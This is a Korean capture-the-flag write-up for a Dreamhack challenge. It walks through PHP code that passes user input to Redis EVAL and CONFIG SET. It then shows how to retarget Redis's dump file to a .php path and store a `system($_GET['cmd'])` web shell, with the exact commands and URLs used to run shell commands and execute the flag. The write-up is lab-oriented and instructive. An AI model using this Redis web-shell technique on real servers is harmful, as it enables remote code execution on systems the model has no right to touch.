




<h1>1. 웹 페이지 분석</h1>

 

<메인>



접속한 첫 페이지에서는 입력을 받을 수 있는 공간이 있고 그 아래에 save 체크박스, submit 버튼, 그리고 Command History 가 있다. 그리고 오른쪽에는 Reset 링크가 있다. 

 

Command 에서 아무거나 입력하고 submit 하니 Command History 에 기록이 남는다.

 

그리고 우측 상단에는 Config 링크가 있는데 이 링크를 클릭하면 다른 페이지로 이동하게 된다.

 

<config>




이 페이지에는 GET,SET 을 선택할 수 있으며, key 와 value 를 입력하고 submit을 통해 값을 전송한다.

 
<h1>2. 코드 분석</h1>


첫 페이지인 index.php 코드의 일부를 가져왔다.


```
<?php 
if(isset($_POST['cmd'])){ // cmd
$redis = new Redis(); // redis 연동.
$redis->connect($REDIS_HOST); //REDIS_HOST 에 연결
$ret = json_encode($redis->eval($_POST['cmd']));
echo '<h1 class="subtitle">Result</h1>';
echo "<pre>$ret</pre>";
if (!array_key_exists('history_cnt', $_SESSION)) { // array_key_exists("확인하고자 하는 키",[배열명]) : 배열의 키가 존재하는지 확인하는 함수. 
배열이 키를 가지고 있으면 1을 반환하고, 그렇지 않다면 아무것도 반환하지 않는다.
	$_SESSION['history_cnt'] = 0;
}
$_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
$_SESSION['history_cnt'] += 1;
             
if(isset($_POST['save'])) { // save 체크박스에 체크했을 때
	$path = './data/'. md5(session_id());
	$data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret; // PHP_EOL : 줄바꿈, str_repeat('반복할 문자열',횟수) : 문자열 반복
	file_put_contents($path, $data); // file_put_contents("파일명","파일에 작성할 내용") : 파일에 내용을 작성
	echo "saved at : <a target='_blank' href='$path'>$path</a>";
	}
}
?>
```


웹 페이지에서 redis 데이터베이스를 연동하고 Command Textarea 에 값이 전달되었을 때와 save 체크박스에

 

체크되었을 때 처리할 명령들이 작성되어 있다. 다른 명령들이 많이 작성되어있지만 여기에서 주목해야 할 부분은

 

$ret 변수이다.


```
$ret = json_encode($redis->eval($_POST['cmd']));
```

이 코드는 웹 페이지에서 작성된 command 의 내용으로 redis 에서 eval 명령을 실행하고 json 객체 형태로 인코딩한다. 

 

그렇다면 command 에 어떤 값을 주면 될까 고민하고 조사하다가 자료를 찾을 수 있었다.


참고자료 - http://redisgate.kr/redis/command/lua.php


redis 에서는 eval 명령을 통해 lua script 를 실행할 수 있다고 한다. 예를 들면,

 

> EVAL "return redis.call('set', 'key', 'value')" 

 

이 스크립트가 실행되면 redis 에서 key : value 로 데이터를 set 하게 된다.

 

이 lua script 를 실행하여 웹 쉘을 삽입할 수 있다. 그렇지만 이 웹쉘을 삽입하기 위해 거쳐야 할 과정이 있다.

 

* 웹쉘을 삽입하기 위한 과정

1. redis 의 설정을 바꾼다. (dir, dbfilename 항목)

2. set 명령으로 php 코드를 삽입한다.

3. save 명령을 실행한다.

 

Redis 는 예외적으로 메모리에 데이터를 저장하는 인 메모리(In-Memory) 데이터베이스이다.

 

메모리는 휘발성이라는 특징을 가지기 때문에 데이터 손실 방지를 위해 일정 시간마다 메모리 데이터를 파일 시스템에

 

저장한다. 그리고 설정에서 변경한 dir 과 dbfilename 은 데이터베이스 파일을 저장할 디렉터리와 데이터베이스 파일

 

이름을 지정하는 것이다. 설정을 변경하고 데이터베이스에 값을 SET 해서 SAVE 하게 되면

 

서버측 파일 시스템에 웹쉘이 저장되는 것이다. SAVE 는 말 그대로 데이터를 메모리에 저장한다는 의미이다. 

 

* redis 설정 명령어

CONFIG set dir /tmp

CONFIG set dbfilename redis.php

 

redis의 설정은 이 명령어로 수정할 수 있는데 아까 보았던 config 페이지에서 SET, GET 을 선택할 수 있었다.

 

아마 config 페이지에서 redis의 설정을 set 또는 get 할 수 있는 것이 아닐까 하는 생각이 들었고,

 

config 페이지의 코드를 분석해보니 전송되는 값을 통해 config 명령이 실행되는 것을 알 수 있었다.


```
                <?php 
                    if(isset($_POST['option'])){ 
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
```

만약 POST 메소드로 전송된 값 option 이 있다면 Redis 를 연동하여 option 값이 GET 또는 SET 일 때 각각 config 명령을

 

실행한다. Redis 에서는 SET는 값을 변경하거나 추가하는 명령이며, GET 은 데이터를 조회하는 명령이다. 

 

따라서 SET 인 경우에는 입력된 값을 통해 config 명령을 실행하여 redis 의 설정을 변경하며, GET 인 경우에는 입력된 값

 

을 설정 내에서 조회한다.

 

GET 을 선택하고 key 값으로 모든 설정을 조회하는 * 값을 주니 모든 설정이 조회됨을 알 수 있다.





이제 웹쉘을 삽입하기 위한 첫번째 과정인 설정을 변경하기 위해 set로 변경하고 key 값에는 dir, value 값은 원하는 경로

 

값을 주면 된다. dir 설정을 조회했을 때의 값은 /var/www/html 이고, 본인은 공격하기 위한 URL을 전송하기 편하도록

 

파일 위치를 변경하지는 않았다.

 

다음은 dbfilename 설정을 변경한다.  key 값은 dbfilename, value 값은 redis.php 로 주었다. 이 설정 또한 공격자가 원하는

 

대로 주면 된다. 성공적으로 설정이 변경되면 result 에 1이 출력된다.

 

그 다음은 php 웹쉘 코드를 삽입하는 과정인데, 그 전에 3번 과정인 save 명령을 실행시키기 위한 설정을 변경한다.

 

save 옵션이 있는데, 이 설정은 dbfile을 저장하는 주기를 설정하는 옵션이다. save 옵션은 다음과 같이 설정되어 있다.

 

 

"save":"3600 1 300 100 60 10000"

 

여러 숫자들의 나열인데 두 숫자씩 묶어서 해석하면 되고, 다음과 같은 의미를 지닌다.

 

save : (3600 1) (300 100) (60 10000)

 

(시간(초) 변경된 데이터의 갯수)

 

즉, 3600 초에 1개, 300초에 100개, 60초에 10000개의 데이터가 변경되었을 때 dbfile을 지정한 dir 경로에 저장한다는

 

것이다. 따라서 save 설정을 잘 변경한다면 save 명령을 실행하지 않아도 save 명령이 실행되도록 할 수 있다.

 

본인은 3600 0 300 0 60 0 으로 설정하여, 그냥 무조건 데이터가 저장되도록 변경해버렸다.

 

그리고 2번 과정인 php 웹쉘 코드를 삽입하기 위해 첫 페이지로 돌아와 command 에 다음과 같은 값을 입력하고

 

전송하였다.

 

return redis.call("set","test","<?php system($_GET['cmd']); ?>")

 

redis 에 test key 에 웹쉘 코드를 value로 하여 데이터를 저장하였다.

 

이 코드를 전송하여 true가 출력되면 명령은 잘 실행된 것이며, 아까 변경했던 save 옵션에 의해 작성한 코드가 php 파일로

 

저장되었을 것이다.

 

이제 저장된 파일에 접근하기 위해 URL을 전송한다.

http://host3.dreamhack.games:22597/redis.php?cmd=명령어;

전송한 코드가 잘 저장되었다면, 웹쉘이 실행되어 명령어가 서버에서 실행되었을 것이다.

 

flag 파일을 찾기 위해 find 명령어를 전송했다.

 

find / -name flag

 

위의 명령어를 전송하여 flag 의 위치는 /(root) 임이 확인되었고, file 명령어를 통해 flag 파일은 실행파일임을 알아내었다.

 

이제 flag 파일을 실행하면 되는데 아까 dir 설정을 /var/www/html 으로 그대로 두었으므로, 먼저 / 으로 이동한 후, flag 

 

파일을 실행하면 된다.

 

다음의 URL을 전송하면 flag 값을 얻을 수 있다.

 

http://host3.dreamhack.games:22597/redis.php?cmd=../../../flag;

 

../ 명령어를 통해 / 으로 이동하고, flag를 실행하는 명령어를 전송하였다.



